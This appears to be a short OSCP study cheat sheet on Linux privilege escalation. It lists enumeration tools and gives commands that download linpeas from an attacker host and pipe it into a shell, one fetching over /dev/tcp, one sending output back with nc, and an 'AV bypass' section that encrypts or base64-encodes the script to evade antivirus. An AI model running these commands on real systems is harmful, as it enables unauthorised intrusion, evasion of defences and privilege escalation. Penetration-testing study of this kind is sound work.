 ```yaml
---
layer: article
title: Privilege Escalation
tags: oscp
---
```


## GTFOBins

项目地址：<https://github.com/GTFOBins/GTFOBins.github.io> 和<https://gtfobins.github.io/>

## BeRoot

## pspy

项目地址: <https://github.com/DominicBreuker/pspy>

包含：稳定版`pspy32` 和`pspy64`和小文件版`pspy32s` 和`pspy64s`

## linpeas.sh

项目地址：<https://github.com/carlospolop/PEASS-ng> 和<https://linpeas.sh/>

```sh
# From github
$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

```sh
# Local network
$ sudo python -m SimpleHTTPServer 80 #Host
$ curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
$ sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
$ cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
$ nc -lvnp 9002 | tee linpeas.out #Host
$ curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```

```sh
# Output to file
$ ./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
$ less -r /dev/shm/linpeas.txt #Read with colors
```

```sh
# Use a linpeas binary
$ wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
$ chmod +x linpeas_linux_amd64
$ ./linpeas_linux_amd64
```

### AV bypass

```sh
#open-ssl encryption
$ openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
$ sudo python -m SimpleHTTPServer 80 #Start HTTP server
$ curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
$ base64 -w0 linpeas.sh > lp.enc
$ sudo python -m SimpleHTTPServer 80 #Start HTTP server
$ curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```

## linux-exploit-suggester.sh

## linux-exploit-suggester-2.pl

## linuxprivchecker.py

## LinEnum.sh

## SUID 提权

```sh
$ find / -perm -u=s -type f 2>/dev/null
# 或者
$ find / -user root -perm -4000 -print 2>/dev/null
$find / -user root -perm -4000 -exec ls -ldb {} \;
```

参考：<https://www.freebuf.com/articles/others-articles/307232.html>
